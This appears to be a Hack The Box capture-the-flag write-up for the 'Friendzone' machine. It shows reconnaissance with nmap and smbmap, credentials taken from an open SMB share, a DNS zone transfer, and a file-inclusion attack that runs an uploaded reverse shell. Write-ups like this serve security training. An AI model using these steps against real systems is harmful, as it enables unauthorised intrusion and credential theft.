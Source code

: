 ```yaml
---
layout: post
title:  "HTB Friendzone Linux"
description : Great for practicing DNS zonestransfers, a lot of trial and error for getting user!
tags: HTB, DNS, ctf
---
```


# Recon
Nmap Scan
```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:49 EST
Nmap scan report for 10.10.10.123
Host is up (0.023s latency).
Not shown: 993 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
53/tcp open domain
80/tcp open http
139/tcp open netbios-ssn
443/tcp open https
445/tcp open microsoft-ds
```

```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:53 EST
Nmap scan report for 10.10.10.123
Host is up (0.025s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp open domain ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open ssl/http Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
SMBMAP SCAN
```ruby
smbmap -H 10.10.10.123
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
Development READ, WRITE
IPC$ NO ACCESS
```
SMBMAP recursive SCAN
```ruby
smbmap -H 10.10.10.123 -R --depth 5
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123 
2/3
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
.\
dr--r--r-- 0 Wed Jan 16 15:10:51 2019 .
dr--r--r-- 0 Wed Jan 23 16:51:02 2019 ..
-r--r--r-- 57 Tue Oct 9 19:52:42 2018 creds.txt
Development READ, WRITE
.\
IPC$ NO ACCESS
```
![](https://lh3.googleusercontent.com/O4pzmZNFGbiAAwAUWZERP_T7AWHf35fKkjQn50cLGT6XcgtAX0P1FQMYKh8MzUPzwEGcYCEc85kBLdX7LXa_2ipBrWvF1eTa8ldKjkXnO3u7yrYUicEd89F-H2HvC601gFtHz7cstwi4B9Wor51lTkzcJ6iJdMI7kZStMI9sCm9hxhXImJDCZvDG8smbmzwfCxKY5nWPGO5oGMo6SIfeTQxX5VITmPIh-DWwc5WTqODy9E3Kmtsecwy0y0g7fMrTbS2KPopSuxzYhzapHAtOphp-NYt0Q4RBz5vlFsXBmpkA80k00aAywHCXhfWa9_3sOHJj1xewgPvQRiHq9zJNNvlqZucImGRj_I5fdqNLVkQBxjEDaIoVC0kYfyQNeVwYdXAbMz-ELDzxACAlDacq7vFD8IfzZ9h8LVLe_NQzF5NxX-RmL1omGPEkXbf4HDe-WHoC-OrhUyslf-_vPDIEveYILwtDaLifjyIPNkXK4Gc5qvIRV6MOyix6TYXR24yGCGy0eadL2pFkrRIOhiG8r99M2Oyi1mdUnoJ3ypISHI4Avjj9IQINFQpVJTQyXxS6wSzep9CaS70N6Jc_P8k3E6qK-xVyKVFvFdbG3P8GCxOXS10K_wvVbrSCRZvB_dJpsQ54nCLRd8IxUpq_Pya1eXaptW1PpnPJRlrwKbyITZlFEVat2wWAbN8=w766-h511-no)


# Privilege Escalation

We use smbclient to donwload the creds.txt file to our machine
```ruby
smbclient //10.10.10.123/general
```
![](https://lh3.googleusercontent.com/bMtxkBFwC0LIqrhO-RBkBheIrcozv-KPVzuS4mUlDFfc-j6cNJsvh-PurxMM-MwoQw1juHkJW-gqKluIkJoCQfGiIftvZubl2kX9qaA8LOaXF4mViqelwuk3wYjQQDUd2egeqeXYIBsJXa184s4hwAu0yPjr9qlMlvF3ls0UD2zDV9FD6LXmmDIZeTGEkRkKLauNt5aFj3ItISHaRV28lexIoqe-GA0MkVXGj2VPDmz63taXCsbbN7Rp0KQWhdHc_MZ_vqRpMgJ0YJAXeezc8GAbnsS1y6YQST2c6bsRZ9qC6WwFNDLcKYCZQRqciqGwdpglTKNhqJJpymJHlX1m-iS7794LXhutmBzNYVC4OqyjHeYan1kwWZsgxP_yKbq4Qgk88Dv8o9gEsKELOC-n6LF6oEobY4AO68lMT5cYThJRG5F-7UlwAriN4oWbUjwqrIdW1-Z_u0STvnL1-H2EAUkgHHBS-O6YtxX6OcE1K85H2W3OQ4oLQVUKbsXDHbaIwO3Ni0pqbdQz1r6-vqWyHW57frpO0XHAPX71-SlEqb097Lpi_V8l_QPI178rpqVQw9FzUAwq9TcgpUYosR9ebsO-XIt2Hpx3pV2L3Zp0gSxNA-pUfY_mute5NS5-mi19HpucXBkLi8apuJg3vXpmq2KaF0JmrzH6IVLh5WlFR7VeZ5UcWCawfTI=w978-h145-no)

We obtain a passwd `admin:WORKWORKHhallelujah@#`
We add "friendzoneportal.red" and "friendzone.red" to our host file as the landing page
suggest to another domain and our nmap hints the same on port 445 and port 53.
![](https://lh3.googleusercontent.com/2wqZHZK2JEMlpv-RghvYZHgU0OhCYX_v1kOGeci8G8LZnZQgGchllI3T36LARwcSqeWXpFo4XkwU3KPmp7Sr7-LoZ_woax6Vug295ZEWr73GolAR3_KDziV-qAtvJJwLgGEUFJpWNJV9tdb4rAtvsdTtmg_Bn1hvwtYH5EAfF1ipkX4eD-bPs7aLIryz5x_jCwt8vp2dE5mBzV_5ARFZuDoHXQOYbtAFwzvHziYkjqevBaTZdBdVTGnG9AI7USj4JkY52ZzBdRQbQNDeYQ-lSM2XUNB7viKSUa1OE2DrXWljUxBkSXyCEzOOOMLW8SrBykkma7gBrZSfkjqBMNW-LRlfqVNjmDtT3CoMkYYsLvyxxlwze0KQDsAM7y9ReFAyiDCDBc5zAxRKV2kx6ZTbEJc3VNgyvDZapgRwivDkxnnS-zfHJ14cAVaJUCcbmCrXSEsvN1wjvSI1QuK9Vm3KkIOM3coBqY4AFHFnAvchaDuoXVb7XeNtUNPRf5Z-5XKGcDGSG0ZJkgcima8AH30ZePFaQN5r9pL-VW3I-0MkLj4-jHt9bN_zMvZD829AF3pHvdmPHhcMp5ASFBTwWj7ANaCtug1qQQ79U2tcHgKwoAd4n72TUffi3bj8OdZu1tFRCiuFpuofPhnynVriVaqQ2dvK5xXJfMiRrAbi13oyj1QdhOccVVHXhnY=w593-h147-no)

We locate and interesting directory "https://friendzone.red/js/js/" at first I though it
was some kind of passwd but after refreshing the page we notcied that the code change..likely
the page is running php and not static html code.
![](https://lh3.googleusercontent.com/JSNfWkKi7VCEkwJm_YdSTk73NCH8uX_l9tJbE97ZFAqM9NF5QrtBPLO3_Yz9AriA6HeRUGcRMv_SSTqBlsYBrjIexDXdmFWbf7TresFh1fes-xhfu5cPbCDOTONasCQQJRc8Wjxm_ReOz2kiMJORYZbtxsjGx3xFTIYz5e1oZk8hozI77v6azxRtmmTjOAVaeoEY6hDYT7Sq6GWX2ki4j9Rqu7ZwN_W8ZZMmfIYk-u3Jh2De4N0RmMsoQeRjiFmfH1Dm4EAzaszN5XcHI9uk8nisqammNMDxu5_DrW0F4xJ9TaYSFEbLwLpSYQAQ9CdP8kOYJ03MRGpmyp0TiyAjz7Rup16h3LqdsDKlPmuIGYnHZ3vmcTr5RwLqFPDgfKlP8NsYxfKQgSonw0YMvMYiXxu8Y0ulpMxL-kh8Z7-vO_X3unK2LhQX7pnrro4LTyP5Fqzhl2DxspyWyjRfAF_YWtyRvhgLeAqt_21pKB_SCXzD2Ch2tjvlrSxQ7Nv5HuL16mfPfGmFneTfikW37sGkdb0SFr4qy8x2tJ4KuHwEHYwBXyLfz1f6WBsIwgB-8arezfSjAAg-Gcp0184lVRLli7Odp7E8nkVE0heTTRZdluT5TBE-uGBL4rBeWWd6ayUg-TcbA5Twi-pSukcI7Tj8lehJUzJyp1a1t6BsoquyT3M3A8dmmHBQWHY=w795-h492-no)

![](https://lh3.googleusercontent.com/Dx_PGnfS9mKnoMH3HySMJ-QeRp21vDOoJE66Oyw5vSAg7S7E6n7JWWOy2Egc-sZhL7ExZqO9pOUtEH91-SbVfqidjLsq_L7hr4fk5cZAMVH9j4P43RwfU0EwW_JegTC7UcPRUWqMvz-TUc5s_Af_TOJPBkf306zc8hshV5iAAp-07ETC5dB8KXoQHJDdSBNSOeN12RBn3c9sYTH4VXt5U7r7FYBA7z80qoEsOPutx4ZlT8_LxG0UpUutBgkZwREq-vmizE5IFnoYhAuRnkzm-jSteD_XMq9oG_wdkcP2gwgOG64yidi5D9wxrePBBnA8JjbQOvUoC1Hn8Mlh0mD2dXYbROcRQvVl5FczcxybqWKar0JY4uCU94yIzhy-8J4_U8kB0Ra8yQfe_PGKOXKEcDDh7OV_GgTUjtD6cbA9zqQbAZ07nt1A7_TvSa9iCVbk5QeI1k6jK5V1qnaJU2JrltcJxzvTo0TtAeUkS7Gb1KvtVhwjpHAiG0b6xVVkCKzMULMul2TTARYyt8rxQVW059g7cI9DHlBauZyPEGmjmqUTtOgytQ6cO-qPXeJlXG16VbcrHLSUEOKFwz_qq8udxhwdGMqEBQpmbHnMbO7Ts3D7sRDWDLEutgFJImlWtrOausGXOrELe0nStmvAijPuGo9hBwVFCvhXBKfvgJyG0QVyT-HMXPL1TwU=w498-h159-no)

![](https://lh3.googleusercontent.com/CYD0J2WM4_0hJhRHBm2Tl3PJWHuWb6psP8Gbl5LA-1wmQbCPKjwE6dTsaijfgHaO9SqrMeRwL3Zo2UmB0yBlaNUgbfiYTaJLFMmJvZ072P3TvM6occ1btFvW_bbJOKIVjQV7r66RJeYWh5j_acEepszUSNuWU-BeuEmCZkMPgYdAhC5_HP_rxuusj-OzGP3AtOAmvgui18NPbyNJ1BLiM4AHRF7GYHofSWJZmtaH3xCU7Zu7GHSAvIZBuw6uUDaGnBkqG5UBooNYrgBiMsVZo60bdJIqidIItLCRQvAzp7zDXRFxrD29Zreo6g0prdbc8R3BAfNC4kJzFJ3t4r6gqo0K1amQTe4ufrAbkneTeM3hsfQI5w1Wg7yshinkOjtkGdj2PNDxeS23wS5lZ0FWTkr28ekPKj8KTOJB_sHpzHsd4xqZ6obtTH0VqDFAE0ZWZMA7ZKH_GlID3gmeswIsfKG06mZer-S4ACspZqR3iqL1J5ETB9635pdySNRPpD03Ywb3y-lS999TryvXcIKscRPnXUlylij4FGrkAJAyxQnzGbzZmdoeYWpnLhWa5NQMp4lHtO19S01uJOH4Gh_DON5xT4YUzRl877ch90UGqy-3xlFz7yCNsOojszzAIlhPVFoB9jbwW8dK4b3G_MJyBBCH5bp-n9OCCOVWGW5olNFPOvT0YfI5M6s=w456-h148-no)

![](https://lh3.googleusercontent.com/DY7B-xv8FO2DanRPbqsTOKspLGToMdlP_4iczl1YLkbYccfAKn1zorgAALGj_oFnoNfusv-EBONb5lTxRL3cTt2B1FvAbJftXERKnalUTjVHVXnLgps6f7EnZdGprhV4gkkXnELZN-y0a2eL_gWcCAT8W8u_wIwPki1a5NRR5A49geXnU_LqhXnCj2V32ysu50UUN9INmfi0gHWkRs_1KPVLvbxz1089hoCE4zTt-q8vrAh0xYqpolNnSBbQR6lp2Va18XL52bsztuQ92YSk6UQRzuGhI7l3OwegT6B3wIDOlATxJ5zjmkDn6QMszk99U8QNeggrXNLPtwlPsy3MjaFDoRPQDrSg9wcBrpq-3BxqzOV60RLDwQNikA4A4WovIfPJVeWfNlsGq1YNevpsiSPyTcNJkg5-hLxSAFNs5rKw3vSQAV5kMZfvNQwKuIjGWOlRfwEkvy_wY9I2rrv8lhpY2d2ZJ85mcxCMKZmtq1MUr2XsODSnnAhPJt4rHfVhXE0l-SLaShrnZhL5nY3SO3GrGmArFEdRRQ7ncGnJWQPL5zZy1NsrQ5kIbA8eAMKxIiXUJLsDN1cDzWarSk5FMQNRRA08z-lpZreRUcMkxgYNvVKXGnFA5A2VV6PASf6MzQMseQ7xEa6sV7_acw9PKuPceSBfDUo49owYGZ4wfbq95XqccNfwAJM=w475-h275-no)

At this point, our most likely path is the dns domain references..lets do a zone transfer
on our target machine

```ruby
dig axfr @10.10.10.123 friendzone.red
dig axfr @10.10.10.123 friendzoneportal.red
```
![](https://lh3.googleusercontent.com/a2K2GGmFwGFaF4Q8i5kQNBZTYSyaBnMl7n7YPh0ZhYUhjg381zuxQ0Lmz6aOmKWLWl2VWXLB9FkqRp_EMw4WT850p0RCyrbtDmziuEyhiVjTfmtXBANJg7xTtsf89TLhS_lKRGOV5N3TiiY5lXiaOQn41KhYmw9EGNheBv1Pt_zLPXwMBNGsdcw-JTu2TUbnBKkjjA4-na5oRMq_yvDcuDjW-5qihRYZAa0WoLPs8I3MyauI2EFkK3dlKWxy9HDLqOlDDavO2mQ7vkf7qzgQd2bdnYrUd8MltaxQeGLiYKXPOXJccky-NRc16iod9Yh_9S9jwsNvzNd0mnZAYfm0YSRtXELDlvl6rBWX9eJzy955W9KU6uRQyVLiEOeVKtEUea5bsc9g0BFp2lpKOPxya0tzso84y93ZfFX23--B1jcdWoher0Eo6a4f779pGzfs_TkbkTUFmhvvytarqdoOicrtVFyG2PsMEddKO6uhlao0NB-ZC2OttvUredcntdgNwhrnQSNNmQtttCU1nOWZ7g70Z3jqgp_sZemK_kpzDOv0yHBmgFsmSY0v_6T99-quQOW2pE3K-KHQlvLtBmy4UuxgAETtyznJf0BGp8pYTVDK2i3VQKM0dz9wSQAJRxawBRIBQKm8lMILe-yUUNpRb9OPlhlKFcuXObmazXtVSZZ8kczAkGTj-nc=w596-h291-no)

![](https://lh3.googleusercontent.com/q5hjO660mo6QoKMGMA4U97C_jHDYZgi-HG-gwrKTs9XKOJc7u5EZeU-RthEw-Js1Xg0B9Vdvj1HFSkXSxh7iGj0GXmV21OkSI6JLSaEVEte_4ldKr7kqIQIviq9dRvT3aoB8qZeVGao6qOnvuihOwuxzwd36NsfUK2aTifx7excVsiFYiNFfEk4QmihvMThS61jgh1yQupv1gNjBC35aLQuy4BmcpnqtzxWIO5Y2EW4rHO2fVtV1f9vhPn7xeVxQktr48tUy4v8pfBLIwm332DluYG4wDYbVCHxUrtzS7PiEYW0NXcEB6eqVSfhpIKDzHpx58J1W5wodSkzUv13SH2PnpuMXr9qS0W697M2nyRDtFcyWr1_XEEZ-fAYcAza8pcUJJtA36k8Inkn5QXft9dXgkkpgW_n4eFa7cqvP1gNJP7FjfLOtVEIKdZaXtP-qbq6iXxZy3s7UP4AAxRSoI_goNXTtb0Kj-g4zaToqaPpv85hWSyImwOky3zp2RB6e63H6bCl7O2rv-kDFcxOsKJQYEEueU0S3Z1e4T8LcuSpNEZVL4aKLkXm2CX0dpZ8XQRFU9zGFgnWFZ5qz95o2byMptO3aZTMPmbKHLR30dNSTN3N2e3lloj7bbJ_n8WcU2KcGfH6vz60QWS0l9lYqIqK8Qf5UCEHwUPfc0cYpJlXO3TH6SJ_rrBI=w614-h307-no)


We save the info to a dns.txt file and we clean the output
```ruby
cat host.txt | grep friendzone | grep IN | cut -f 1 -d "6" | uniq > dns.txt
friendzoneportal.red
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
friendzoneportal.red
friendzone.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
friendzone.red
```
![](https://lh3.googleusercontent.com/ntODtJPQttlWy1Z9QFtJlIt8PmX-RcltuJlmjtbapccgLtBHYnJ-Lb99LQyhPu7NhGhjmQpVgjeT03au5SDuSnshAc0RtzwXEjIJjuxzatGl7a_no_5Sh22yTlC7WAJh-0sfLfr48Hb_PPi3yJ5F4arewtZYFrKa0AxmvqhbHIh9bV7JkBGjmqu3ORUWtB7ZRVacRRzcOxWFU1UHcwF2luygoVSEJ0tgFI16Qkc2e4xNJt5atXAnzbXiwNim4KROD2vnPVS2ctFnJcNHNZP-c-HfvN8nxl8YxM8jppHcjz6uJeXDbimfBK04QMB_w6sBHsQ7837UXQcjxTGtdf3RCjpWVvi04teynQB8OAAUiNFwbFICo0gCyLKc0O67YP0-bfN1tV1-UFCsfZaiw9Li4Tjz9Z0gfrjMTnJFd6PrvcIw3GD1Apfx0MRbONik4uQyrNsbAn9QZAwS-CZSlC1rZ2WgFbnz8ec2pR14iZxa-W_OLYHgQ0Jss7UEXGspgpqypScyFx1kCIdurXf3v1uYqTfpESmplwUOVlPYNqSa3xAfXQjw8tQCuv9UgdUVuoPMlg8J5UVDVy8BsTB4yAsyDoqTjvIdUEWXK8a8mkeQz2gzu-bvr48XHmFqKchNwRJsKCDAbaVHI3sd4_LZfUH15DBo5_Ysp3i9uP94FnJqT6W_Ue1S1HYVuOA=w930-h249-no)


The only useful address were `uploads.friendzone.red` and `administrator1.friendzone.red`
![](https://lh3.googleusercontent.com/F6Ak2L0sVHXGCNocLsTFzc0mPl7MiJs0NTapSKkA7UayPFt6McM7zIxD7ouVkNW4svl-j4USWJaAo3xKMNEMH5N1EyjiqvNt2-C1MeI7QjePDihQ029K9RrLT-xpGAQo5iKMaiHwGoYMQISBklaBq0k66ITodaWV6TFx8lGdtl3ZvrPUMYTSbHX8XHX5tMIyIVjZ4V4Wz8Eqj6khctnhomv_6BpKJYXG69myUKhn4PmCaeJlJMu3XGaQshTD0bT6kIZPtiX5HIUXJn1MlHLem10bux0qDWs0p9cpjUD-v8rvPthnLflKFG4tYLYNSha_p8othuh0BqUFHcmAi6WTLK1QU1OuMKbb0w4h_EEMKCwdRKeYn_C9a_oppTwKpKHDlZJ9SSwlvHUjSWFzaEBUd-LiURf5BoL5qeAyV0DLe62pj1e6XGuRk2WwT9upBWPpUE2O_uv3PhZCf4YIQ6h9QsOB7CHuTzDhHY1SbTyoTYj9nGNr9SX5P4PGtn-ywbDXEHWZHNSQQ8Sd28VvXPDYAF-Nz8OYQUxCfZkNQYi9rFsZqQd8KFzlypXqX6Axfh-nkflHAuzdenX9Lm_lyttIyqIMEvmrg2u-j_cReZlL8N2JsS_ANJNZUsnkkSfGZqj4ieO7KsECetgfZMugX6257VHpZMzW8gHYPW4giWyV3rxDMzl9XkToMow=w693-h288-no)

![](https://lh3.googleusercontent.com/NgCSoFXUf_sFkRsSqU5Jmct54TV7XwHTnHofsvKap5-V_OsLWfbWEr2Z7zhdaOHv-747UruwZOtlPGWG49GlsLni4L7cTe70lYlGjtuwgftnfYxVKLLaUOG83lBkZXd--sepk4UiYoDCO92vkxZFdbEibC8lck27Yb2ttN00Bn4bS70oKq9Jebz5JaHNx69M1aNXi3LQ3T60byPyF-1u4rBUV4PxoT4KY7VHT9eADwtxB7hpRcg4h1bQaDw1YtQo2w36zgKUCANziPFA1tFMdvb-a5OMMn-rmPaN0Fh2FqD9rUAtUSyB3cttuPnZE1dJRT4qN9ieFhOWSOi92II0UZ6a7sJ-5LmeeNVYuTpl2yHapjUM66UjzSCsSWuoq2ytjDklXuLbxpd_k9CvRpFAKqGw4onhbekRvNlV7FIIwQEKArMY4FXlc1hM1E4ZWgvoJjG2kiAVbb7qX6ha4En77d-tHYHURKiDLhM1IVKTtI7rMGbPJx4-LsbG2-R-Q1LYGL8ucWN2ZzJi_NG9b11Ml7XBrgQGlqs40_tf_QWI1bWMq5xxzmd0P_IorGsoZo-sn5ZgFiBySHy-BtUN_MRHHqJLXNk8zVInND0ZN-hFudqkojS-QlGmO3kOayxb76-ePY5Moo4kJEM_XFRVTurjF6FR1dW-WZqNTu-zOJQmTcVNeeBIK2HBugM=w1017-h88-no)

![](https://lh3.googleusercontent.com/upaY8k8YjXHugTqRmIqUVpdxUnkryt9Tx9FFX1-oZDTz808yN9yU1ydwBFCaiG0YbDSoZfgjZ6-SLvdTSgBWZwMbFjonV32_lxAMOKE_ftkgg0vxjpMt3DW8co6FuvWbLaCXpNONoizzKtMzjbbHC2D_v9klOSW9ob9LRDVNUeKLS73p7Ls2sodbEA5LvayngvmzLzk6jHhjWzRCg_153Ozmfd-kVfLTR93t7jOZa2itwbG5srYDvU3VB2dZF4r8Etz7IczTfyVRW2gpGEj7C1doby2TksYVk1qAVoGb7uR_PqAAKvDbmoRRRC6hyg_UcBeiP76cgTVCrvBLzmW4Tpw95m7BD7yHVV-osWGEE2MIWV4lk_aIWK7LMiK7i_hFcrjMDMZAtxVkJfevuuTHvW-aYdbayr335W7t6iSxlPiWZxLm-xIuKdBH32w-gsgJZl3cKUPmWiU7BHbLQdEHRiOGs1FKNu5OixFHUJOrTauBU0VtU5Lbbw467Selz5kpeKHOlZqL32xh7DZjhfo46qzq0eRFkbDqweFsszaK4Wz1CD_1AcQnf6W7AXEeYmoY8YiswSOoUXJ7P9O2NUMGekWJn0aKhKiN5Xwy7uYo1wWT_riePGQLFFpifFWgO9-TbjTa29uAideh3phM0SCjKxcxGuqACDCwdZ8bCxTSAZxS5FgFglSBdWY=w599-h391-no)

We upload a reverse shell on "uploads" but we dont get to see where IF the file was uploaded.
we only get a timestamp

![](https://lh3.googleusercontent.com/Bd42yVRsSnm7qyuccfk0EQvmWzmDKLFdwvrsdugktEt5WORggv4BE7tkGHrNcfurdmQjRrTslblhavhtWm9_l8OVjU_bM0PpNdPmppIpb5aef2Z_5kLphcJEws3CK-yBy91vXvvH078_BwyzMNfcjZunhURU1LzXza1BOkyO_XIErWJFFg3QTchPP-1ylNjpWj4jxK_p2wU7spsuav2e76ksR4maQXZPi1fVVJLYBQ-niZ6_w4q4aEyrRrDUy8syX1ogRhMH0lYZ8cHDCxWuct7VcVpnG561Ov0tgCJtseFzkSrbdva91yI0H-BcaEK7jJV8fFwbEB0QRxUrD_n-WNTjatGEWXd8atdhyZc9ZsrTBPN7OmpEoycAV-11kYFXGJqThAnlSGseVU9caenEyPxI2QBUbO2rdXoeXYsmBS2SD_ezG7I0UAwJEsonq9oEJDmzC4QuWR2Zfs9-miuOLZp77u3dV2zNSLt5RZn_smIg2e4ORX4ReBeGv3v4mNNIeGORWUT6cNHMTWY1dsyApI7Xq8MkxmtJBFkOWdxRd2McrVFYwT8GgL4JTwbLahN6c9piptsMSmd-7lYQzf5dx31EBdvk-S6KNS6qyJUsr6Nx4f4QVg14cH4M9-5Z7FFVeIYS5O0IwVAImXsQ9b6OoRgRiJSkAyPAfT7nrnQJIV2XDvyAqQdmuF0=w764-h382-no)

the "admin" portal give us a hint about how to search for image files
`image_id=a.jpg&pagename=timestamp` but not luck there

![](https://lh3.googleusercontent.com/Qnf1IwMDJyy_qHSbKZZrZcgpGMFc8jhcqCEkqTkXXbCDQvepoI6hLwhAFK39LHPV2_heabNXRk95uFMgnYmOizTuLu0bC1-VBoStRK5q5GCQLY0ssSsN7jhnEg2EJ3-MlOupBCkQnujpLe8D--DNeYOYBhbWXfI63fW9EYFZmsvRsjnaGv92RrxLQezJappJr6kHfqyKbA25h7D8Fy_oNNJHE0gADJQkcRROMva9ffaUhQa9Bgj4anw_myYaQ24QGXw6-nTIWXYOp7d99dgHTX83MuiXCQeDxqynNoneE6M4RqrFFAt9nHNuijTybh0uYBZnaT31UWA2kI9fW8SQatEdCaKLvcnTsWLq8z9t1ujBzP5He7stVmf3qnnBKIRdd2dI_XdhaOylWePUcWJz2wNKMIDw0nShkrPfxtH5R3iTAu8k7UJM_7-3HvKbTBkpQnlbBhMH28aAAMAc6O6p8G8fei6fKC4jVulR8t1W3qYFGpLD0VXVO3B_m2G5y7yhWA_4gktKEyA1HAPVD9p6e2uREPS9z0A-WwLPoimPkqBmUtnwJIUHq_SlJ1QrNFRVaJTT_YAVZ8nEzxwQlcZIpd-oFg32Hsx2Anz3yy6bvumGrB7MuorWlrkfnrXZD1S5cvOGWp7V7Z8jF5c2rVRRuch0Afy3cv_asehhoFoom94CRIPKRgH25l4=w581-h108-no)

After poking for awhile I realized that we can upload our shell using smbclient on the
directory `/etc/Development/`
![](https://lh3.googleusercontent.com/LloZdpfxIdoJmRU3RXvMMIsJkBjpx6g2P_DsxiGYjLhL_MPmcEvymauREaEXWWBoDLYfB-qPi29TcKY7xn0a0AbJnqBLh5QlMzu-D_iH53RV9uMVHOyzuG-olw7Sptac4Ra654IV0kKrsDFd-OLZ4KkDCOB6kLf9MRVE84p5vqY_DTkWewls9f9jPvOtNCgdKbitA4Lbyq412H9EPULNeKbJgVDKy1AzA_G1xDfjKR17gLIZlvZPsiYfZmzipFRPN7F8EOeYlZX2-5KT0qkvkEljoL44tSq4RP74Gp3RFd71pUx0n7g02tmijaQxOjuyE5DW5AFZMQ-cIvfb_b-iWYTraPCwcSvUoKURxQBi1t2em8zMoAdYS5MbxNjiyvD-k7aBT1KxqtWfK8KjQ2iJrdtJUL2K9jviPU59WUTeahq3oAG-RLUpic9ElpEO0JEmitSpB0aVO0_7Fmz8aIkcDHDrTzgHarYMbcR5riRMhyuPCEYAHTXr3Ewg8Eu8qXx595UDnSXLoJlJdTpA8DOPLIsn0CTE3HeEeMPSqfitrhA7kMuN-UnqNTL5u1vALymrHinvSQu4VzC-uydvBpYK4Fwt1pqjVp9Pl6QzWB-6AxqiySB3U_shH9qbzqBTtqHUJpHOHdQIodU13oS9wrix2bfkne2XtkXUaMOhl1r62U1NgD4W2x6CANk=w831-h324-no)

and call our shell from **image_id=a.jpg&pagename=/etc/Development/reverseshell**
![](https://lh3.googleusercontent.com/o2v5Gj8aGBfyTZrpzInp9DKqc_0GUOVB_Bh-kHPfzgTgRJRMt_UQwP9-lX8rNT6fmtCPMSMylV7j9zAaWA_mOXAK_69oEx9IpiHdYoTjhM6GLYrRJ13C7ANUwWHNnk554gB3wQzvuq7XOSDE4q9yA6lQ66l1PAW2mxTTL-mMUrSJZv08n4EeLzUDsQ2t6pqTpzirwMX57xahlM6mTiMUnFcy4NcQaDnYNnoFxGRiqhGrTDnqdzcMnVEXeg3OtceyYzVKRNVu_V_Ut4j_NhG9ymAt0ELgmKmcL646rh8kk7NToAL-q5bUHqyQ9A5lPdVyVS4vlZ5CYa3z40HAAUgliNrtuogQEw3ZG3RoleEcPFQIlDq0mg0B8AOa44aUvxyIMk7xdlbkA59T9nGL59kppdZhKm5l9bppVWvHhngGJqEFVON06oSIuFesX95rj4HVpxqE5-APFVp6zq1TnB9d2kHspjMSNFIpZal1mKuTniVa321PZaWrNE1dPs5QqOvywlDNb9wHMJCmO5dx_qqtIhEH0dQT_YdN3aPd9W1Z-5XcrIpq3p8xEkkwBLQDp2dcolcUMHpJhjbTtLaNhrd6bIsE68qCoSKQc3zIhUJWehlDIMztlWiCw9nIhmhhPwlS230evRIxzXsNGriAnCn_EImTEdpvHZ9ClZUhVphDNx9X0S8jLU10GfE=w429-h59-no)

